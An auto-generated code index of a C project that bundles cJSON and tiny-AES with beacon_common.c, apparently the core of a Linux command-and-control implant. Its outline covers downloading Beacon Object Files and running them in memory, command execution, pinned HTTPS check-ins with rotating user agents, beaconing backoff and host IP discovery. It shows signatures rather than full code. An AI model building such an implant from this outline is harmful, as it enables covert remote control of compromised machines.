- `suffix_object` (line 2020) `static void suffix_object(cJSON *prev, cJSON *item)` - *} CJSON_PUBLIC(cJSON *) cJSON_GetObjectItemCaseSensitive(const cJSON *const object, const char *const string) { return get_object_item(object, string, true); } CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling.*
- `create_reference` (line 2027) `static cJSON *create_reference(const cJSON *item, const internal_hooks *const hooks)` - *CJSON_PUBLIC(cJSON_bool) cJSON_HasObjectItem(const cJSON *object, const char *string) { return cJSON_GetObjectItem(object, string) ? 1 : 0; } /* Utility for array list handling. static void suffix_object(cJSON *prev, cJSON *item) { prev->next = item; item->prev = prev; } /* Utility for handling references.*
- `add_item_to_array` (line 2048) `static cJSON_bool add_item_to_array(cJSON *array, cJSON *item)`
- `cast_away_const` (line 2095) `static void *cast_away_const(const void *string)` - */* Add item to array/object. CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToArray(cJSON *array, cJSON *item) { return add_item_to_array(array, item); } #if defined(__clang__) ||                                                                          \ (defined(__GNUC__) && ((__GNUC__ > 4) || ((__GNUC__ == 4) && (__GNUC__ - MINOR__ > 5)))) #pragma GCC diagnostic push #endif #ifdef __GNUC__ #pragma GCC diagnostic ignored "-Wcast-qual" #endif /* helper function to cast away const*
- `add_item_to_object` (line 2104) `static cJSON_bool add_item_to_object(cJSON *const object, const char *const string,
             ...`
- `CJSON_PUBLIC` (line 2143) `CJSON_PUBLIC(cJSON_bool) cJSON_AddItemToObject(cJSON *object, const char *string, cJSON *item)`
- `CJSON_PUBLIC` (line 2154) `CJSON_PUBLIC(cJSON_bool) cJSON_AddItemReferenceToArray(cJSON *array, cJSON *item)`
- `CJSON_PUBLIC` (line 2164) `CJSON_PUBLIC(cJSON_bool)
cJSON_AddItemReferenceToObject(cJSON *object, const char *string, cJSON ...`
- `CJSON_PUBLIC` (line 2176) `CJSON_PUBLIC(cJSON *) cJSON_AddNullToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2188) `CJSON_PUBLIC(cJSON *) cJSON_AddTrueToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2200) `CJSON_PUBLIC(cJSON *) cJSON_AddFalseToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2212) `CJSON_PUBLIC(cJSON *)
cJSON_AddBoolToObject(cJSON *const object, const char *const name, const cJ...`
- `CJSON_PUBLIC` (line 2225) `CJSON_PUBLIC(cJSON *)
cJSON_AddNumberToObject(cJSON *const object, const char *const name, const ...`
- `CJSON_PUBLIC` (line 2238) `CJSON_PUBLIC(cJSON *)
cJSON_AddStringToObject(cJSON *const object, const char *const name, const ...`
- `CJSON_PUBLIC` (line 2251) `CJSON_PUBLIC(cJSON *)
cJSON_AddRawToObject(cJSON *const object, const char *const name, const cha...`
- `CJSON_PUBLIC` (line 2264) `CJSON_PUBLIC(cJSON *) cJSON_AddObjectToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2276) `CJSON_PUBLIC(cJSON *) cJSON_AddArrayToObject(cJSON *const object, const char *const name)`
- `CJSON_PUBLIC` (line 2288) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemViaPointer(cJSON *parent, cJSON *const item)`
- `CJSON_PUBLIC` (line 2324) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromArray(cJSON *array, int which)`
- `CJSON_PUBLIC` (line 2334) `CJSON_PUBLIC(void) cJSON_DeleteItemFromArray(cJSON *array, int which)`
- `CJSON_PUBLIC` (line 2339) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObject(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2346) `CJSON_PUBLIC(cJSON *) cJSON_DetachItemFromObjectCaseSensitive(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2353) `CJSON_PUBLIC(void) cJSON_DeleteItemFromObject(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2358) `CJSON_PUBLIC(void) cJSON_DeleteItemFromObjectCaseSensitive(cJSON *object, const char *string)`
- `CJSON_PUBLIC` (line 2400) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemViaPointer(cJSON *const parent, cJSON *const item, cJSO...`
- `CJSON_PUBLIC` (line 2451) `CJSON_PUBLIC(cJSON_bool) cJSON_ReplaceItemInArray(cJSON *array, int which, cJSON *newitem)`
- `replace_item_in_object` (line 2461) `static cJSON_bool replace_item_in_object(cJSON *object, const char *string, cJSON *replacement,
 ...`
- `CJSON_PUBLIC` (line 2486) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemInObject(cJSON *object, const char *string, cJSON *newi...`
- `CJSON_PUBLIC` (line 2492) `CJSON_PUBLIC(cJSON_bool)
cJSON_ReplaceItemInObjectCaseSensitive(cJSON *object, const char *string...`
- `CJSON_PUBLIC` (line 2510) `CJSON_PUBLIC(cJSON *) cJSON_CreateTrue(void)`
- `CJSON_PUBLIC` (line 2521) `CJSON_PUBLIC(cJSON *) cJSON_CreateFalse(void)`
- `CJSON_PUBLIC` (line 2532) `CJSON_PUBLIC(cJSON *) cJSON_CreateBool(cJSON_bool boolean)`
- `CJSON_PUBLIC` (line 2543) `CJSON_PUBLIC(cJSON *) cJSON_CreateNumber(double num)`
- `CJSON_PUBLIC` (line 2568) `CJSON_PUBLIC(cJSON *) cJSON_CreateString(const char *string)`
- `CJSON_PUBLIC` (line 2585) `CJSON_PUBLIC(cJSON *) cJSON_CreateStringReference(const char *string)`
- `CJSON_PUBLIC` (line 2597) `CJSON_PUBLIC(cJSON *) cJSON_CreateObjectReference(const cJSON *child)`
- `CJSON_PUBLIC` (line 2609) `CJSON_PUBLIC(cJSON *) cJSON_CreateArrayReference(const cJSON *child)`
- `CJSON_PUBLIC` (line 2621) `CJSON_PUBLIC(cJSON *) cJSON_CreateRaw(const char *raw)`
- `CJSON_PUBLIC` (line 2638) `CJSON_PUBLIC(cJSON *) cJSON_CreateArray(void)`
- `CJSON_PUBLIC` (line 2649) `CJSON_PUBLIC(cJSON *) cJSON_CreateObject(void)`
- `CJSON_PUBLIC` (line 2702) `CJSON_PUBLIC(cJSON *) cJSON_CreateFloatArray(const float *numbers, int count)`
- `CJSON_PUBLIC` (line 2743) `CJSON_PUBLIC(cJSON *) cJSON_CreateDoubleArray(const double *numbers, int count)`
- `CJSON_PUBLIC` (line 2784) `CJSON_PUBLIC(cJSON *) cJSON_CreateStringArray(const char *const *strings, int count)`
- `cJSON_Duplicate_rec` (line 2832) `cJSON *cJSON_Duplicate_rec(const cJSON *item, size_t depth, cJSON_bool recurse)`
- `skip_oneline_comment` (line 2923) `static void skip_oneline_comment(char **input)`
- `skip_multiline_comment` (line 2937) `static void skip_multiline_comment(char **input)`
- `minify_string` (line 2951) `static void minify_string(char **input, char **output)`
- `CJSON_PUBLIC` (line 2977) `CJSON_PUBLIC(void) cJSON_Minify(char *json)`
- `CJSON_PUBLIC` (line 3027) `CJSON_PUBLIC(cJSON_bool) cJSON_IsInvalid(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3037) `CJSON_PUBLIC(cJSON_bool) cJSON_IsFalse(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3047) `CJSON_PUBLIC(cJSON_bool) cJSON_IsTrue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3057) `CJSON_PUBLIC(cJSON_bool) cJSON_IsBool(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3067) `CJSON_PUBLIC(cJSON_bool) cJSON_IsNull(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3077) `CJSON_PUBLIC(cJSON_bool) cJSON_IsNumber(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3087) `CJSON_PUBLIC(cJSON_bool) cJSON_IsString(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3097) `CJSON_PUBLIC(cJSON_bool) cJSON_IsArray(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3107) `CJSON_PUBLIC(cJSON_bool) cJSON_IsObject(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3117) `CJSON_PUBLIC(cJSON_bool) cJSON_IsRaw(const cJSON *const item)`
- `CJSON_PUBLIC` (line 3127) `CJSON_PUBLIC(cJSON_bool)
cJSON_Compare(const cJSON *const a, const cJSON *const b, const cJSON_bo...`
- `cJSON_ArrayForEach` (line 3214) `cJSON_ArrayForEach(a_element, a)`
- `cJSON_ArrayForEach` (line 3230) `cJSON_ArrayForEach(b_element, b)` - *doing this twice, once on a and b to prevent true comparison if a subset of b * TODO: Do this the proper way, this is just a fix for now*
- `CJSON_PUBLIC` (line 3251) `CJSON_PUBLIC(void *) cJSON_malloc(size_t size)`
- `CJSON_PUBLIC` (line 3256) `CJSON_PUBLIC(void) cJSON_free(void *object)`

**Macros:**
- `_CRT_SECURE_NO_DEPRECATE` (line 28) `#define _CRT_SECURE_NO_DEPRECATE`
- `true` (line 65) `#define true`
- `false` (line 70) `#define false`
- `isinf` (line 75) `#define isinf(d)`
- `isnan` (line 78) `#define isnan(d)`
- `NAN` (line 83) `#define NAN`
- `NAN` (line 85) `#define NAN`
- `internal_malloc` (line 180) `#define internal_malloc`
- `internal_free` (line 181) `#define internal_free`
- `internal_realloc` (line 182) `#define internal_realloc`
- `static_strlen` (line 186) `#define static_strlen(string_literal)`
- `can_read` (line 302) `#define can_read(buffer, size)`
- `can_access_at_index` (line 304) `#define can_access_at_index(buffer, index)`
- `cannot_access_at_index` (line 306) `#define cannot_access_at_index(buffer, index)`
- `buffer_at_offset` (line 308) `#define buffer_at_offset(buffer)`
- `cjson_min` (line 1256) `#define cjson_min(a, b)`

**Structs:**
- `internal_hooks` (line 158)
- `error` (line 89)
- `parse_buffer` (line 292)
- `printbuffer` (line 485)

#### `aes.c`
**Path:** `include/aes.c`
**File Doc:** *aes.c - tiny-AES-c (https://github.com/kokke/tiny-AES-c)*

**Functions:**
- `__attribute__` (line 11) `static __attribute__((unused)) uint8_t getSBoxValue(uint8_t num)`
- `__attribute__` (line 35) `static __attribute__((unused)) uint8_t getSBoxInvert(uint8_t num)`
- `__attribute__` (line 59) `static __attribute__((unused)) uint8_t Td0(int x)`
- `__attribute__` (line 63) `static __attribute__((unused)) uint8_t Td1(int x)`
- `__attribute__` (line 67) `static __attribute__((unused)) uint8_t Td2(int x)`
- `__attribute__` (line 71) `static __attribute__((unused)) uint8_t Td3(int x)`
- `__attribute__` (line 75) `static __attribute__((unused)) uint8_t Td4(int x)`
- `KeyExpansion` (line 181) `static void KeyExpansion(uint8_t *RoundKey, const uint8_t *Key)` - *This function produces Nb(Nr+1) round keys. The round keys are used in each round to decrypt the states.*
- `AES_init_ctx` (line 254) `void AES_init_ctx(struct AES_ctx *ctx, const uint8_t *key)`
- `AES_init_ctx_iv` (line 259) `void AES_init_ctx_iv(struct AES_ctx *ctx, const uint8_t *key, const uint8_t *iv)` - *if (defined(CBC) && (CBC == 1)) || (defined(CTR) && (CTR == 1))*
- `AES_ctx_set_iv` (line 264) `void AES_ctx_set_iv(struct AES_ctx *ctx, const uint8_t *iv)`
- `AddRoundKey` (line 272) `static void AddRoundKey(uint8_t round, state_t *state, const uint8_t *RoundKey)` - *This function adds the round key to state. The round key is added to the state by an XOR function.*
- `SubBytes` (line 286) `static void SubBytes(state_t *state)` - *The SubBytes Function Substitutes the values in the state matrix with values in an S-box.*
- `ShiftRows` (line 301) `static void ShiftRows(state_t *state)` - *The ShiftRows() function shifts the rows in the state to the left. Each row is shifted with different offset. Offset = Row number. So the first row is not shifted.*
- `xtime` (line 329) `static uint8_t xtime(uint8_t x)`
- `MixColumns` (line 335) `static void MixColumns(state_t *state)` - *MixColumns function mixes the columns of the state matrix*
- `Multiply` (line 363) `static uint8_t Multiply(uint8_t x, uint8_t y)` - *Multiply is used to multiply numbers in the field GF(2^8) Note: The last call to xtime() is unneeded, but often ends up generating a smaller binary The compiler seems to be able to vectorize the operation better this way. See https://github.com/kokke/tiny-AES-c/pull/34 if MULTIPLY_AS_A_FUNCTION*
- `InvMixColumns` (line 389) `static void InvMixColumns(state_t *state)` - *MixColumns function mixes the columns of the state matrix. The method used to multiply may be difficult to understand for the inexperienced. Please use the references to gain more information.*
- `InvSubBytes` (line 413) `static void InvSubBytes(state_t *state)` - *The SubBytes Function Substitutes the values in the state matrix with values in an S-box.*
- `InvShiftRows` (line 425) `static void InvShiftRows(state_t *state)`
- `Cipher` (line 455) `static void Cipher(state_t *state, const uint8_t *RoundKey)` - *Cipher is the main function that encrypts the PlainText.*
- `InvCipher` (line 482) `static void InvCipher(state_t *state, const uint8_t *RoundKey)` - *if (defined(CBC) && CBC == 1) || (defined(ECB) && ECB == 1)*
- `AES_ECB_encrypt` (line 512) `void AES_ECB_encrypt(const struct AES_ctx *ctx, uint8_t *buf)`
- `AES_ECB_decrypt` (line 518) `void AES_ECB_decrypt(const struct AES_ctx *ctx, uint8_t *buf)`
- `XorWithIv` (line 528) `static void XorWithIv(uint8_t *buf, const uint8_t *Iv)`
- `AES_CBC_encrypt_buffer` (line 537) `void AES_CBC_encrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)`
- `AES_CBC_decrypt_buffer` (line 552) `void AES_CBC_decrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)`
- `AES_CTR_xcrypt_buffer` (line 572) `void AES_CTR_xcrypt_buffer(struct AES_ctx *ctx, uint8_t *buf, size_t length)` - *Symmetrical operation: same function for encrypting as for decrypting. Note any IV/nonce should * never be reused with the same key*

**Macros:**
- `Nb` (line 5) `#define Nb`
- `KEYLEN_256` (line 7) `#define KEYLEN_256`
- `RKLENGTH` (line 8) `#define RKLENGTH`
- `BLOCKLEN` (line 9) `#define BLOCKLEN`
- `Nb` (line 84) `#define Nb`
- `Nk` (line 87) `#define Nk`
- `Nr` (line 88) `#define Nr`
- `Nk` (line 90) `#define Nk`
- `Nr` (line 91) `#define Nr`
- `Nk` (line 93) `#define Nk`
- `Nr` (line 94) `#define Nr`
- `MULTIPLY_AS_A_FUNCTION` (line 101) `#define MULTIPLY_AS_A_FUNCTION`
- `getSBoxValue` (line 177) `#define getSBoxValue(num)`
- `Multiply` (line 371) `#define Multiply(x, y)`
- `getSBoxInvert` (line 384) `#define getSBoxInvert(num)`

#### `aes_cfb.c`
**Path:** `include/aes_cfb.c`

**Functions:**
- `aes256_cfb_encrypt` (line 21) `unsigned char *aes256_cfb_encrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `aes256_cfb_decrypt` (line 55) `unsigned char *aes256_cfb_decrypt(const unsigned char *key, const unsigned char *iv,
            ...`
- `aes256_cfb_encrypt_replay` (line 94) `unsigned char *aes256_cfb_encrypt_replay(const unsigned char *key, const unsigned char *iv,
     ...` - *Encrypt with replay protection: prepends counter (8 bytes LE) and timestamp (8 bytes LE) * to plaintext before AES-CFB encryption. Returns malloc'd buffer (caller frees).*
- `aes256_cfb_decrypt_replay` (line 126) `unsigned char *aes256_cfb_decrypt_replay(const unsigned char *key, const unsigned char *iv,
     ...` - *Decrypt with replay protection: decrypts ciphertext, extracts counter and timestamp. Returns malloc'd plaintext (without counter/timestamp), sets *out_counter and *out_timestamp. * Returns NULL on decryption failure.*

#### `beacon_common.c`
**Path:** `include/beacon_common.c`

**Functions:**
- `bsb_output_init` (line 109) `int bsb_output_init(size_t capacity)` - *{"BeaconPrintf", &g_BeaconPrintf_ptr}, {"BeaconOutput", &g_BeaconOutput_ptr}, {"socket", &g_socket_ptr}, {"connect", &g_connect_ptr}, {"inet_addr", &g_inet_addr_ptr}, {"htons", &g_htons_ptr}, {"send", &g_send_ptr}, {"recv", &g_recv_ptr}, {"close", &g_close_ptr}, {"getaddrinfo", &g_getaddrinfo_ptr}, {"freeaddrinfo", &g_freeaddrinfo_ptr}, {NULL, NULL}}; /* --- Output buffer management ---*
- `bsb_output_cleanup` (line 135) `void bsb_output_cleanup(void)`
- `bsb_output_reset` (line 149) `void bsb_output_reset(void)`
- `BeaconPrintf` (line 159) `void BeaconPrintf(int type, const char *fmt, ...)` - *g_beacon_output = NULL; g_out_meta = NULL; } void bsb_output_reset(void) { if (g_beacon_output && g_out_meta) { g_out_meta->len = 0; g_beacon_output[0] = '\0'; } } /* --- Beacon API (called by BOFs) ---*
- `BeaconOutput` (line 175) `void BeaconOutput(int type, const char *data, int len)`
- `mmap_near` (line 193) `static void *mmap_near(void *near_hint, size_t len, int prot)` - *mmap a code page near `near_hint` so PC32 relocations stay within the * +-2GB displacement range; falls back to an arbitrary placement.*
- `create_trampoline` (line 211) `void *create_trampoline(void *target, void *near_hint)`
- `cleanup_trampolines` (line 249) `void cleanup_trampolines(void)`
- `get_or_create_trampoline` (line 266) `void *get_or_create_trampoline(void *target, void *near_hint)`
- `WriteMemoryCallback` (line 303) `static size_t WriteMemoryCallback(void *contents, size_t size, size_t nmemb, void *userp)`
- `bsb_curl_pin_format` (line 330) `static void bsb_curl_pin_format(const char *in, char *out, size_t outsz)`
- `https_request` (line 367) `http_response_t https_request(const bsb_config_t *cfg, const char *url, const char *method,
     ...`
- `base64_encode` (line 451) `char *base64_encode(const unsigned char *input, int len)` - *curl_easy_cleanup(curl); return resp; } long http_code = 0; curl_easy_getinfo(curl, CURLINFO_RESPONSE_CODE, &http_code); resp.status = (int)http_code; resp.data = chunk.memory; resp.len = chunk.size; curl_easy_cleanup(curl); return resp; } /* --- Base64 ---*
- `base64_decode` (line 468) `unsigned char *base64_decode(const char *input, int *len)`
- `bsb_generate_secure_iv` (line 498) `int bsb_generate_secure_iv(unsigned char *iv_out)` - *Generates a cryptographically secure 16-byte IV. Tries OpenSSL RAND_bytes first, falls back to getrandom(2). Returns 1 on success, 0 on failure (fail-closed).*
- `_is_unreserved` (line 523) `static int _is_unreserved(unsigned char c)` - */* Fallback to getrandom(2) with GRND_NONBLOCK #if defined(__linux__) && defined(SYS_getrandom) long ret = syscall(SYS_getrandom, iv_out, 16, GRND_NONBLOCK); if (ret == 16) { return 1; /* Success } #endif /* Both sources failed - fail closed return 0; } /* --- URL encoding ---*
- `url_encode` (line 529) `char *url_encode(const char *in, size_t in_len, size_t *out_len)`
- `parse_cmd_to_argv` (line 561) `static char **parse_cmd_to_argv(const char *cmd, int *out_argc)` - *Parse command string into argv array. Returns malloc'd argv array (NULL-terminated), caller must free each string and the array. Returns NULL on parse error.*
- `free_argv` (line 637) `static void free_argv(char **argv)`
- `exec_cmd` (line 648) `char *exec_cmd(const char *cmd, int *out_len)` - *Execute command via execve (no shell) and capture stdout+stderr. Returns malloc'd buffer with combined output (caller frees). On error, returns NULL.*
- `bsb_backoff_init` (line 789) `void bsb_backoff_init(bsb_backoff_t *bo, int base, int max)` - *if (total == 0) { free(buffer); out_len = 0; return strdup(""); } buffer[total] = '\0'; out_len = (int)total; return buffer; } /* --- Backoff state ---*
- `bsb_backoff_next` (line 796) `int bsb_backoff_next(bsb_backoff_t *bo)`
- `bsb_backoff_reset` (line 807) `void bsb_backoff_reset(bsb_backoff_t *bo)`
- `get_local_ips` (line 813) `char *get_local_ips(void)` - *bo->current_seconds *= 2; if (bo->current_seconds > bo->max_seconds) { bo->current_seconds = bo->max_seconds; } return val; } void bsb_backoff_reset(bsb_backoff_t *bo) { bo->current_seconds = bo->base_seconds; } /* --- IP discovery ---*
- `download_bof` (line 848) `unsigned char *download_bof(const bsb_config_t *cfg, const char *url, size_t *out_size)` - *if (addr->sin_family == AF_INET && strcmp(ifr[i].ifr_name, "lo") != 0) { char ip[INET_ADDRSTRLEN]; inet_ntop(AF_INET, &addr->sin_addr, ip, INET_ADDRSTRLEN); if (strlen(result) > 0) strcat(result, ", "); strcat(result, ip); } } close(sockfd); return strlen(result) > 0 ? result : strdup("127.0.0.1"); } /* --- BOF download ---*
- `init_function_pointers` (line 880) `static void init_function_pointers(void)` - *int decoded_len = 0; unsigned char *decoded = base64_decode(resp.data, &decoded_len); free(resp.data); if (!decoded || decoded_len <= 0) { free(decoded); return NULL; } out_size = (size_t)decoded_len; return decoded; } /* --- BOF execution with fork isolation ---*
- `page_align` (line 930) `static size_t page_align(size_t size)`
- `bof_crash_exit` (line 938) `static void bof_crash_exit(int sig)`
- `__attribute__` (line 943) `static void __attribute__((noinline)) call_bof_isolated(bof_func_t func, char *args,
            ...`
- `RunELF` (line 969) `int RunELF(const char *functionname, unsigned char *elf_data, uint32_t filesize,
           unsig...`
- `run_bof_and_capture` (line 1271) `char *run_bof_and_capture(unsigned char *elf_data, uint32_t filesize, char *args, int arglen,
   ...`
- `rand` (line 378) `* rand() % 0 raise SIGFPE and kill the beacon. Fall back to a * neutral default instead. */ if (cfg->network.count > 0 && cfg->network.user_agents[0][0] != '\0') curl_easy_setopt(curl, CURLOPT_USERAGE`
- `fault` (line 949) `* fault (SIGSEGV inside BeaconPrintf). We save the original %rsp in * a scratch slot we own below the current stack pointer, align, call, * then restore. Callee-saved registers are restored by the BOF`

**Macros:**
- `_GNU_SOURCE` (line 9) `#define _GNU_SOURCE`

**Structs:**
- `MemoryStruct` (line 297) - *size_t new_cap = g_cache_capacity ? g_cache_capacity * 2 : 8; TrampolineCache *tmp = realloc(g_trampoline_cache, new_cap * sizeof(TrampolineCache)); if (!tmp) return tramp; g_trampoline_cache = tmp; g_cache_capacity = new_cap; } g_trampoline_cache[g_cache_count].original = target; g_trampoline_cache[g_cache_count].trampoline = tramp; g_cache_count++; return tramp; } /* --- HTTP client ---*
- `bsb_output_meta_t` (line 43) - *BOFs run forked: buffer and length live in MAP_SHARED memory so the * parent can read whatever the child's BeaconOutput calls produced.*

#### `cJSON.c`
**Path:** `include/cJSON.c`

**Functions:**
- `CJSON_PUBLIC` (line 96) `CJSON_PUBLIC(const char *) cJSON_GetErrorPtr(void)`
- `CJSON_PUBLIC` (line 101) `CJSON_PUBLIC(char *) cJSON_GetStringValue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 111) `CJSON_PUBLIC(double) cJSON_GetNumberValue(const cJSON *const item)`
- `CJSON_PUBLIC` (line 126) `CJSON_PUBLIC(const char *) cJSON_Version(void)`
- `case_insensitive_strcmp` (line 135) `static int case_insensitive_strcmp(const unsigned char *string1, const unsigned char *string2)` - */* This is a safeguard to prevent copy-pasters from using incompatible C and header files #if (CJSON_VERSION_MAJOR != 1) || (CJSON_VERSION_MINOR != 7) || (CJSON_VERSION_PATCH != 18) #error cJSON.h and cJSON.c have different versions. Make sure that both have the same. #endif CJSON_PUBLIC(const char *) cJSON_Version(void) { static char version[15]; sprintf(version, "%i.%i.%i", CJSON_VERSION_MAJOR, CJSON_VERSION_MINOR, CJSON_VERSION_PATCH); return version; } /* Case insensitive string comparison, doesn't consider two NULL pointers equal though*
- `internal_malloc` (line 167) `static void *CJSON_CDECL internal_malloc(size_t size)` - *} return tolower(*string1) - tolower(*string2); } typedef struct internal_hooks { void *(CJSON_CDECL *allocate)(size_t size); void(CJSON_CDECL *deallocate)(void *pointer); void *(CJSON_CDECL *reallocate)(void *pointer, size_t size); } internal_hooks; #if defined(_MSC_VER) /* work around MSVC error C2322: '...' address of dllimport '...' is not static*
- `internal_free` (line 171) `static void CJSON_CDECL internal_free(void *pointer)`
- `internal_realloc` (line 175) `static void *CJSON_CDECL internal_realloc(void *pointer, size_t size)`
- `cJSON_strdup` (line 190) `static unsigned char *cJSON_strdup(const unsigned char *string, const internal_hooks *const hooks)`
- `CJSON_PUBLIC` (line 211) `CJSON_PUBLIC(void) cJSON_InitHooks(cJSON_Hooks *hooks)`
- `cJSON_New_Item` (line 243) `static cJSON *cJSON_New_Item(const internal_hooks *const hooks)` - *if (hooks->free_fn != NULL) { global_hooks.deallocate = hooks->free_fn; } /* use realloc only if both free and malloc are used global_hooks.reallocate = NULL; if ((global_hooks.allocate == malloc) && (global_hooks.deallocate == free)) { global_hooks.reallocate = realloc; } } /* Internal constructor.*
- `get_decimal_point` (line 282) `static unsigned char get_decimal_point(void)` - *item->valuestring = NULL; } if (!(item->type & cJSON_StringIsConst) && (item->string != NULL)) { global_hooks.deallocate(item->string); item->string = NULL; } global_hooks.deallocate(item); item = next; } } /* get the decimal point character of the current locale*
- `parse_number` (line 311) `static cJSON_bool parse_number(cJSON *const item, parse_buffer *const input_buffer)` - *size_t depth; /* How deeply nested (in arrays/objects) is the input at the current offset. internal_hooks hooks; } parse_buffer; /* check if the given size is left to read in a given parse buffer (starting with 1) #define can_read(buffer, size) ((buffer != NULL) && (((buffer)->offset + size) <= (buffer)->length)) /* check if the buffer can be accessed at the given index (starting with 0) #define can_access_at_index(buffer, index)                                                         \ ((buffer != NULL) && (((buffer)->offset + index) < (buffer)->length)) #define cannot_access_at_index(buffer, index) (!can_access_at_index(buffer, index)) /* get a pointer to the buffer at the position #define buffer_at_offset(buffer) ((buffer)->content + (buffer)->offset) /* Parse the input text to generate a number, and populate the result into item.*
- `ensure` (line 497) `static unsigned char *ensure(printbuffer *const p, size_t needed)` - *} typedef struct { unsigned char *buffer; size_t length; size_t offset; size_t depth; /* current nesting depth (for formatted printing) cJSON_bool noalloc; cJSON_bool format; /* is this print a formatted print internal_hooks hooks; } printbuffer; /* realloc printbuffer if necessary to have at least "needed" bytes more*
- `update_offset` (line 583) `static void update_offset(printbuffer *const buffer)` - *p->buffer = NULL; return NULL; } memcpy(newbuffer, p->buffer, p->offset + 1); p->hooks.deallocate(p->buffer); } p->length = newsize; p->buffer = newbuffer; return newbuffer + p->offset; } /* calculate the new length of the string in a printbuffer and update the offset*
- `compare_double` (line 596) `static cJSON_bool compare_double(double a, double b)` - */* calculate the new length of the string in a printbuffer and update the offset static void update_offset(printbuffer *const buffer) { const unsigned char *buffer_pointer = NULL; if ((buffer == NULL) || (buffer->buffer == NULL)) { return; } buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables*
- `print_number` (line 603) `static cJSON_bool print_number(const cJSON *const item, printbuffer *const output_buffer)` - *} buffer_pointer = buffer->buffer + buffer->offset; buffer->offset += strlen((const char *)buffer_pointer); } /* securely comparison of floating-point variables static cJSON_bool compare_double(double a, double b) { double maxVal = fabs(a) > fabs(b) ? fabs(a) : fabs(b); return (fabs(a - b) <= maxVal * DBL_EPSILON); } /* Render the number nicely from the given item into a string.*
- `parse_hex4` (line 673) `static unsigned parse_hex4(const unsigned char *const input)` - *output_pointer[i] = '.'; continue; } output_pointer[i] = number_buffer[i]; } output_pointer[i] = '\0'; output_buffer->offset += (size_t)length; return true; } /* parse 4 digit hexadecimal number*
- `utf16_literal_to_utf8` (line 710) `static unsigned char utf16_literal_to_utf8(const unsigned char *const input_pointer,
            ...` - *converts a UTF-16 literal to UTF-8 * A literal can be one or two sequences of the form \uXXXX*
- `parse_string` (line 832) `static cJSON_bool parse_string(cJSON *const item, parse_buffer *const input_buffer)` - *else { (*output_pointer)[0] = (unsigned char)(codepoint & 0x7F); } output_pointer += utf8_length; return sequence_length; fail: return 0; } /* Parse the input text into an unescaped cinput, and populate item.*
- `print_string_ptr` (line 964) `static cJSON_bool print_string_ptr(const unsigned char *const input,
                            ...` - *{ input_buffer->hooks.deallocate(output); output = NULL; } if (input_pointer != NULL) { input_buffer->offset = (size_t)(input_pointer - input_buffer->content); } return false; } /* Render the cstring provided to an escaped version that can be printed.*
- `print_string` (line 1087) `static cJSON_bool print_string(const cJSON *const item, printbuffer *const p)` - */* escape and print as unicode codepoint sprintf((char *)output_pointer, "u%04x", *input_pointer); output_pointer += 4; break; } } } output[output_length + 1] = '"'; output[output_length + 2] = '\0'; return true; } /* Invoke print_string_ptr (which is useful) on an item.*
- `buffer_skip_whitespace` (line 1101) `static parse_buffer *buffer_skip_whitespace(parse_buffer *const buffer)` - *static cJSON_bool print_string(const cJSON *const item, printbuffer *const p) { return print_string_ptr((unsigned char *)item->valuestring, p); } /* Predeclare these prototypes. static cJSON_bool parse_value(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_value(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_array(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_array(const cJSON *const item, printbuffer *const output_buffer); static cJSON_bool parse_object(cJSON *const item, parse_buffer *const input_buffer); static cJSON_bool print_object(const cJSON *const item, printbuffer *const output_buffer); /* Utility to jump whitespace and cr/lf*
- `skip_utf8_bom` (line 1127) `static parse_buffer *skip_utf8_bom(parse_buffer *const buffer)` - *while (can_access_at_index(buffer, 0) && (buffer_at_offset(buffer)[0] <= 32)) { buffer->offset++; } if (buffer->offset == buffer->length) { buffer->offset--; } return buffer; } /* skip the UTF-8 BOM (byte order mark) if it is at the beginning of a buffer*
- `CJSON_PUBLIC` (line 1143) `CJSON_PUBLIC(cJSON *)
cJSON_ParseWithOpts(const char *value, const char **return_parse_end,
     ...`
- `CJSON_PUBLIC` (line 1251) `CJSON_PUBLIC(cJSON *) cJSON_ParseWithLength(const char *value, size_t buffer_length)`
- `print` (line 1258) `static unsigned char *print(const cJSON *const item, cJSON_bool format,
                         ...`
- `CJSON_PUBLIC` (line 1333) `CJSON_PUBLIC(char *) cJSON_PrintUnformatted(const cJSON *item)`
- `CJSON_PUBLIC` (line 1338) `CJSON_PUBLIC(char *) cJSON_PrintBuffered(const cJSON *item, int prebuffer, cJSON_bool fmt)`
- `CJSON_PUBLIC` (line 1369) `CJSON_PUBLIC(cJSON_bool)
cJSON_PrintPreallocated(cJSON *item, char *buffer, const int length, con...`
